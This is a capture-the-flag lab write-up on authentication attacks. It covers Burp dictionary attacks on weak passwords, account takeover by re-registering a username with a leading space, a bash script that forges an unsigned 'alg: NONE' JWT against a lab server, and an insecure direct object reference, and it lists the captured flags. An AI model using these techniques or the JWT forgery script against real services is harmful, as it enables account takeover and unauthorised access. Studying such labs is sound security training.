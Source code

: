 > Authenticate

# Dictionar Attack using Burp

And we have been given credentials for jack.`12345678`

# flag

```
fad9ddc1feebd9e9bca05f02dd89e271
```

Let's find for mike. And we got a hit `12345`.

# flag

```
e1faaa144df2f24aa0a9284f4a5bb578
```

# Re-Registration

We already have an user called `darren`. Let's try to re register this account. ` darren`:`darren`. And we are in as darren!

# Flag

```
fe86079416a21a3c99937fea8874b667
```

Let's re-register another user arthur. ` arthur`:`arthur`

# JSON Web Token

This challenge visit the port 5000. It is a very simple login page and in that, you can log in via two users: user and user2. Now first let's try to login with the credentials of `user`:`user` . To do so first enter those credentials then click on the Authenticate button. Then enable the capture in burp suite and then click on the Go button.

```
#!/bin/bash

header=$(echo '{"typ":"JWT","alg":"NONE"}' | base64url | sed 's/=*$//')
payload=$(curl -s http://10.10.240.179:5000/auth --data '{"username": "user", "password": "user"}' -H "Content-Type: application/json" | \
     sed 's/.*:".*\.\(.*\)\..*$/\1/' | base64 -d 2>/dev/null | sed "s/\:1\}/\:$1\}/" | base64url | sed 's/=*$//')
jwt="${header}.${payload}."

curl -s http://10.10.240.179:5000/protected -H "Content-Type: application/json" -H "Authorization: JWT ${jwt}"
echo
```

# NoAuth

We can create a temp user. And viewing our private space we get an interesting URL `http://10.10.240.179:7777/users/1`. Let's change it to `http://10.10.240.179:7777/users/0` and we have what we want.

```
Your password:
abcd1234

Your secret data:
Here's your flag: 72102933396288983011
```